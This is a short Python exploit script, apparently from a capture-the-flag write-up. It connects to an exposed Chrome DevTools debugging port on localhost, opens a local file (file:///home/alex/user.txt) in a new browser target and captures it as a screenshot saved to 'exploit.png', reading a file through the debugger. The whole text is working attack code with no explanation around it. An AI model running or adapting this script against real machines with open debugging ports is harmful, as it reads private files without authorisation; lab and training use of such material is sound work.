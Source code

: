 **<u>Script.py:</u>**

```python
import json
import requests
import websocket
import base64

# Set debugger address
debugger_address = 'http://localhost:53371'

# Get available debugging tabs
response = requests.get(f'{debugger_address}/json')
tabs = response.json()

# Replace IP to ensure local connection
web_socket_debugger_url = tabs[0]['webSocketDebuggerUrl'].replace('127.0.0.1', 'localhost')
print(f'Connect to URL: {web_socket_debugger_url}')

# Establish WebSocket connection
ws = websocket.create_connection(web_socket_debugger_url, suppress_origin=True)

# Create a new target (e.g., open a file-based tab)
command = json.dumps({
    "id": 5,
    "method": "Target.createTarget",
    "params": {
        "url": "file:///home/alex/user.txt"
    }
})
ws.send(command)
target_id = json.loads(ws.recv())['result']['targetId']
print(f'Target ID: {target_id}')

# Attach to the created target
command = json.dumps({
    "id": 6,
    "method": "Target.attachToTarget",
    "params": {
        "targetId": target_id,
        "flatten": True
    }
})
ws.send(command)
session_id = json.loads(ws.recv())['params']['sessionId']
print(f'Session ID: {session_id}')

# Capture a screenshot of the attached session
command = json.dumps({
    "id": 7,
    "sessionId": session_id,
    "method": "Page.captureScreenshot",
    "params": {
        "format": "png"
    }
})
ws.send(command)
result = json.loads(ws.recv())

# Check and save the screenshot
if 'result' in result and 'data' in result['result']:
    print("Success: File reading complete")
    with open("exploit.png", "wb") as file:
        file.write(base64.b64decode(result['result']['data']))
```